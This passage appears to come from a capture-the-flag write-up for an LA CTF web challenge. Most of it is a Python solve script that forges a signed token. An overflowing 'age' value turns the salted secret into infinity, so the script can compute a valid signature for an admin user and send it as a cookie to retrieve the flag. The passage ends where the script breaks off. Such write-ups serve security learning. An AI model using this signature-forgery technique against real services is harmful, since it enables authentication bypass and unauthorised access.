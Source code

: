 As you can see, our forged token's signature is now matched to the new one!!

**With that said, let's modify our test script into a solve script:**
```python
import hashlib
import json
import time
import requests
import re

class JasonWebToken:
    def __init__(self, baseUrl):
        self.DECODE_TOKEN_ROUTE = '/img'
        self.FLAG_REGEX_FORMAT = r'(lactf\{.*\})'

        self.USERNAME = 'givemeflag'
        self.AGE = 1.8e+308
        self.ROLE = 'admin'
        self.TIMESTAMP = int(time.time())
        self.userinfo = {'username': self.USERNAME, 'age': self.AGE, 'role': self.ROLE, 'timestamp': self.TIMESTAMP}

        self.baseUrl = baseUrl
        self.hash_ = lambda a: hashlib.sha256(a.encode()).hexdigest()

    def createForgedToken(self):
        saltedSecret = float('inf')
        data = json.dumps(self.userinfo)
        signature = self.hash_(f'{data}:{saltedSecret}')

        print(f'[*] Salted secret: {saltedSecret}')
        print(f'[*] Signature: {signature}')
        print(f'[*] Raw JSON data: {data}')

        hexedData = data.encode().hex()
        token = f'{hexedData}.{signature}'
        return token

    def sendGetFlagRequest(self, token):
        header = {
            'Cookie': f'token={token}'
        }
        response = requests.get(f'{self.baseUrl}{self.DECODE_TOKEN_ROUTE}', headers=header)
        responseMsg = response.json()['msg'].strip()

        matchedFlag = re.search(self.FLAG_REGEX_FORMAT, responseMsg)
        if not matchedFlag:
            return None

        flag = matchedFlag.group(1)
        return flag

    def exploit(self):
        print('[*] Generating new forged token...')
        token = self.createForgedToken()
        print(f'[+] Token: {token}\n')

        flag = self.sendGetFlagRequest(token)
        if not flag:
            print(f'[-] The token didn\'t get forged...')

        print(f'[+] The token has been forged! Here\'s the flag:\n{flag}')

if __name__ == '__main__':
```